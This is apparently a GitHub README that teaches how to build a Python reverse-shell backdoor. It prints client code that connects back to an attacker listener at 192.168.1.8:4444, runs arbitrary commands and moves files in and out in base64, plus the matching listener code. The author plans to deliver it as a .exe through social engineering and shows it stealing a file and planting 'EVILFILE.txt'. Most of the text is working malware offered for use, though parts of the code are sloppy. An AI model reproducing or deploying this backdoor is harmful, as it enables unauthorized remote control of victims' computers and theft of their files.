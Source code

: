 # Backdoor.

A backdoor refers to any method by which authorized and unauthorized users are able to get around normal security measures and gain high-level user access on a computer system, network, or software application. With this malware we're going to gain access to download files, upload files, and access any repository that we want.</br>
## HOW?</br>
This malware has to be executed on the target machine, this repository doesn't cover the part of this malware being executed on the target machine because this is done with social engineering, converting the program .py in one file .exe, anyway I won't cover this here, I'm gonna show how to create the malware.

## The Behavior of a Backdoor.
The idea is to connect both computers(mine and the target machine) using sockets, but trying to connect my computer with the target directly doesn't work, the system denies the connection with some random port obviously, is like someone random trying to connect with my computer I wouldn't allow. So instead of me try to connect with some random port of the target machine I'm gonna make the target machine connect with me, we call this reverse shell, when the target downloads the .exe will run the program and this way connecting with some port that I opened in my computer.</br>

Once I already have the connection how I'm gonna execute commands on the target machine and download files and upload files? With the socket connection, I can send and receive strings between the computers, so I'm gonna send the command that I want to execute on the target machine and he will receive, and my program(the program that the target downloaded) will treat the string and execute on the target machine, sending back to my computer the command result. EX: if the target uses Windows and I send the command "cd" as a string he will receive and my program(on the target machine) it's gonna execute and send back the command result, in this case the directory that I'm.</br>

The first thing that my .exe it's gonna do when the target executes, it's connecting with my machine using the module "socket" of python, in this case, the connection is made by the constructor when I create an object of the class backdoor.
```python
def __init__(self, ip, port):
    self.connection = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    self.connection.connect((ip, port))

my_backdoor = Backdoor ("192.168.1.8",4444)
my_backdoor.run()
```
then i run the methon run() that is gonna run all the time while the connection is up, the method receive_as_json() receive the commands that i sent from my machine, it receive as json because the socket connection just receive strings and how the commands that i want to execute are biggers, because they are lists like "dowload file.txt", i use json that converts lists and everything in strings.
```python
def receive_as_json(self):
        json_data = ""
        while True:
            try:
                json_data = json_data + self.connection.recv(1024)
                return json.loads(json_data)
            except ValueError:
                continue
```
this is other method that have an infinite loop because i can receive just 1024 bytes for each interaction, so verify if all the content already been received, if not keep receiveing more 1024 bytes.</br>

the try statement it's gonna verify the command list, precisely the first position to verify what i want to use(cd, download, upload) any other command will execute without any problems. When the cd command is executed i just change my directory to which i want to go(second part of the list the command[1]) with the module "os". And the result i put in variable command_result that is sent to my computer as json. 
```python
           try:
                if command[0] == "exit":
                    self.connection.close()
                    sys.exit()
                elif command[0] == "cd" and len(command) > 1:
                       self.change_working_directory_to(command[1])
                       command_result = "[+] Changing working directory to " + str(command[1])
                elif command[0] == "download":
                    command_result = self.read_file(command[1])
                elif command[0] == "upload":
                    command_result = self.write_file(command[1], command[2])  
                else:
                    command_result = self.execute_system_command(command)
            except Exception as e:
                command_result = "[-] Error during comand execution."
 
            self.send_as_json(command_result)
```
To download and upload files between the connection the logic is almost the same, the ideia is to copy the file that i want to download from the target machine and create a new file on my machine with the same content that i received through the connection. When i copy a file i actually copy all the characters from this file and when i paste i create a new file with this characters that i copied.
```python
def read_file(self, path):
    with open(path, "rb") as file:
         return base64.b64encode(file.read())
```
the logic reading the file is eazy, i just read the file that i want to download as a binary file, and convert into base 64 with the module "base64", because, when i read as a binary file unknow characters comes with the other characters, so converting the file to base 64 the unknow characters don't appear anymore.</br>

Anyway when i download one file from the target machine i actually sent the characters through the socket connection and receive on my machine, then one file is created with this characters that came from the target machine, this way i have the file that i wanted on my pc. Now when i want to upload files to my target is the same logic i just have to send from my computer the characters(in base 64) of the file, and the target machine will receive and use the method write_file() to create a new file with the characters that i want.

```python
 def write_file(self, path, content):
        with open(path, "wb") as file:
            file.write(base64.b64decode(content))
            return "[+] Upload successful."
```
All of this was the reverse_backdoor.py in format of .exe that was executed on the target machine, the listener is almost the same thing of this code, the differences are the constructor that open a port to receive the connection from the target machine.
```python
def __init__(self, ip, port):
          listener = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
          listener.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
          listener.bind((ip, port))
          listener.listen(0)
          print("[+] Waiting  for incoming connections")
          self.connection, address = listener.accept()
          print("[+] Got a connection from" + str(address))
```

the method run() it's gonna be in loop until i write the word "exit", while this i have an input to send the command that i want to the target machine, then i split the command to convert into a list. As i said if the first position of my list is "upload" i'm gonna read characters that i want and send through the socket connection as json, if the command is "download" i'm gonna send the command and receive the characters from the file that i want, and create a file with this characters.

```python
def run(self):
          while True:
                command = raw_input(">> ")
                command = command.split(" ")

                try:
		               if command[0] == "upload":
	                    file_content = self.read_file(command[1])
	                    command.append(file_content) 

		               result = self.execute_remotely(command) 
		                      
		               if command[0] == "download":
		                  result = self.write_file(command[1], result)
               except Exception:
                   result = "[-] Error during command execution"  

               print(result)
```
## The Backdoor in action...

First of all i have to execute the listener.py in my machine and wait the target download the .exe, with my testing machine
i downloaded the .exe(the file reverse_backdoor.py) then the connection is made automatically from the target machine. How you can see i got a connection from my target and if write the command ipconfig i already can see the result on my machine about the target machine. 

![Alt text](/<images/gif1.gif)

With the command "dir" i can see wich files are in that directoy, i want to download the image "codeImage.png", sending the command "download codeImage.png" the image appears on my machine.

![Alt text](/<images/gif2.gif)

Now i want to send the file EVILFILE.txt to my target, as you can see with the command "dir" there was nothing like that on the target,but when i write the command "upload EVILFILE.txt"...

![Alt text](/<images/gif3.gif)






